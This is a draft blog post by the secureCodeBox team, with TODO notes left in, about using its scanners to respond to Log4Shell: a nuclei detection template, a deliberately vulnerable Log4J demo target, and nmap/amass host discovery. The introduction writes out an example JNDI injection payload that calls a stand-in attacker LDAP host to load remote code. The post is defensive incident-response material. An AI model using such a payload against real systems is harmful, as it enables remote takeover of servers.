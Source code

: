 ```yaml
---
# SPDX-FileCopyrightText: 2021 iteratec GmbH
#
# SPDX-License-Identifier: Apache-2.0

title: How We Used secureCodeBox In Our Log4Shell Incident Response
author: The secureCodeBox Team
author_title: Core Developer  # TODO: What do we put here? The names of everyone who contributed to the blog post?
author_url: https://github.com/secureCodeBox
author_image_url: https://avatars.githubusercontent.com/u/34573705?v=4
tags:
  - secureCodeBox
  - case study
  - incident response
  - SAST
  - DAST
  - cascading scans
  - Log4Shell
  - Log4J
description: We describe how the secureCodeBox allowed us to rapidly respond to the Log4shell vulnerability.
image: /img/blog/2021-10-27-magnifyingglass.jpg  # TODO Replace picture
---
```


![A magnifying glass pointed at a laptop keyboard](/img/blog/2021-10-27-magnifyingglass.jpg)

Cover photo by [Agence Olloweb](https://unsplash.com/@olloweb) on [Unsplash](https://unsplash.com/photos/d9ILr-dbEdg).

Vorschlag fürs Foto: https://unsplash.com/photos/AXRYB88LAXs :)

By now, you must have heard about Log4Shell, the present that ruined Christmas for many developers and IT specialists, whether naughty or nice. 
This blog describes how we used the secureCodeBox in our incident response process at Iteratec.
   
<!--truncate-->

## A Brief Introduction To Log4Shell

But first, a small refresher: In late November 2021, a [zero-day vulnerability was discovered in the widely used Java logging library Log4J](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/). It allowed attackers to remotely execute code through Java Naming Directory Index ([JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) lookups to malicious LDAP servers: If an attacker can get the application to log a payload controlled by the attacker, like `{jndi:ldap//evil.ldap.server.adress/a}`, then the code hosted on the LDAP server would be loaded and executed by the program, effectively letting third parties take control of the Java Application and the server it's running on.

This vulnerability shook the IT world. It received a CVE rating of 10/10, and even the German government issued a statement calling for immediate action and described the issue as "critical". This is due to two main reasons. First, the vulnerability was relatively simple for attackers to exploit. Second, it has remained undiscovered since 2013, affecting many services from AWS to Minecraft.

At [Iteratec](https://www.iteratec.com), as a software development company, we had to assess our security posture as well - for both the infrastructure that we were running for ourselves, as well as the software we develop for our customers.
In this blog post, we describe how we leveraged the secureCodeBox as part of our incident response.

## Finding Affected Infrastructure
TODO: Add brief intro here.

### Testing For Vulnerabilities

Soon after the Log4Shell vulnerability became publicly known, the community of the [nuclei](https://github.com/projectdiscovery/nuclei) scanner published a [scan template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml) (the nuclei version of a scan rule, which describes declaratively how to test a host for the vulnerability) to detect the Log4Shell vulnerability.
This rule triggers a single HTTP request to the target with a single HTTP get request parameter set to include the JNDI attack payload. 
It also includes a large number of HTTP header each containing the same attack payload. 
If the server uses a vulnerable version of Log4J to log one of the parameters, the host will trigger a DNS lookup. 
Before the scan, nuclei registers a new endpoint on an [out-of-band (OOB) interaction service](https://github.com/projectdiscovery/interactsh), which will log all DNS lookup made to that unique domain name. 
Nuclei automatically confiures the JNDI attack payload to make the lookup on the domain name of the OOB endpoint. 
This gives a very effective way to discover the vulnerability with a very low chance for false positives.

Thought the false positive rate is very low, the detection rate can also be low, as the dynamic scans have to actually trigger the vulnerability correctly by passing the right parameters (e.g. `?foo=bar&baz=${jdni...})`), finding and using the correct endpoint (e.g. `/api/user/login`) or including a valid user token and session to access a restricted endpoint. 
All these things are potentially required to detect Log4Shell via dynamic scanners. 
Hence, if the scans do not give any results, it does not necessarily mean that no Log4J bug is present, but it can at least rule out the easy-to-find cases.

To use the Nuclei template in the secureCodeBox, we...
TODO: I would propose giving explicit instructions for how we pulled the template into the SCB
TODO: I would propose to give YAML versions of all of this so people can copy-paste and understand / see how easy it is to do this

### Building A Demo Target
We needed a test target to validate that our scanners effectively detect a Log4J vulnerability. Fortunately, secureCodebox already has the ideal resource for this use case: the *demo target*.
We use demo targets in SCB to continuously test the functionality of our scanners during the development cycles.
Our existing demo targets include the [bodgeit store](https://github.com/psiinon/bodgeit) and [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/).  
Integration tests are run against the demo targets during our CI/CD pipeline to spot any malfunctioning scanner.

Demo targets consist of a Kubernetes service containing a vulnerable application image.
Creating a new Log4J demo target is a straightforward process. First, a vulnerable docker image is required. 
Luckily, an image has been [provided by the GitHub user 'christophetd'](https://github.com/christophetd/log4Shell-vulnerable-app).  
Second, we must create our [helm chart folder](https://github.com/secureCodeBox/secureCodeBox/tree/main/demo-targets/vulnerable-log4j/templates) using the same directory structure as the other demo targets and configure it to use the vulnerable Log4J image. 
It is essential to [expose the demo target's service corresponding ports](https://github.com/secureCodeBox/secureCodeBox/blob/e4320e71f6c215213a91649a61cc361cf543d924/demo-targets/vulnerable-log4j/templates/deployment.yaml#L37-L40).
In this case, it is port 8080. And then we are essentially done. All that is left now is to install the demo target in the preferred namespace, as shown below:  

TODO: In the paragraph above, add example YAMLs (if we also do that in the other places).

```bash
helm upgrade --install vulnerable-log4j ./demo-targets/vulnerable-log4j/ --namespace <NAMESPACE>
```

After using the demo target to validate that the scanner works, we then proceeded to run it against our own infrastructure.

### Finding Hosts

To scan for the Log4Shell vulnerabilities dynamically we first have to identify what to scan.
Using the secureCodeBox we used the [cascading scanning mechanism](https://docs.securecodebox.io/docs/hooks/cascading-scans) to run an initial scan to discover scan targets and use their result to automatically start scans for the identified hosts and domains.
We used two different different discovery methods:

1. For hosts in the internal networks, we used the secureCodeBox `nmap` scanType to scan for hosts and open ports in our internal IP ranges (e.g. 10.42.0.0/16). Every port which nmap identified to be related to http(s) (which is generally the easiest protocol to scan for Log4Shell even thought it can also be exploitable via different protocols) was used as a target in a Log4Shell scans.
2. For publicly available hosts, we used the `amass` scanType to find subdomains for the list of domain names we own as a company. This outputs a list of a subdomains which we then use to automatically trigger `nmap` scans to find open http(s) ports for the actual Log4Shell vulnerability assessment.

After enumerating the targets, we triggered the actual Nikto scans using another cascading rule.

## Finding Affected Code
(As a software company, we not only have our own infrastructure, but we are also producing code that we need to check for vulnerabilities. We have already described how to do this in a previous blogpost, in this case we used rules developed by Kurt Boberg and shared on the semgrep slack. I'm not sure we actually need to go into great detail since it is pretty much identical to the previous blog post about SAST, so we may only need to highlight the differences if there are any, and I don't think there are.)

## Conclusion

(Conclusion goes here.)
We are looking forward to hearing your own stories and ideas for using secureCodeBox - [find us on Slack][scb-slack] or [GitHub][scb-repo] to get in touch.


[scb-slack]: https://join.slack.com/t/securecodebox/shared_invite/enQtNDU3MTUyOTM0NTMwLTBjOWRjNjVkNGEyMjQ0ZGMyNDdlYTQxYWQ4MzNiNGY3MDMxNThkZjJmMzY2NDRhMTk3ZWM3OWFkYmY1YzUxNTU%22
[scb-repo]: https://github.com/secureCodeBox/secureCodeBox/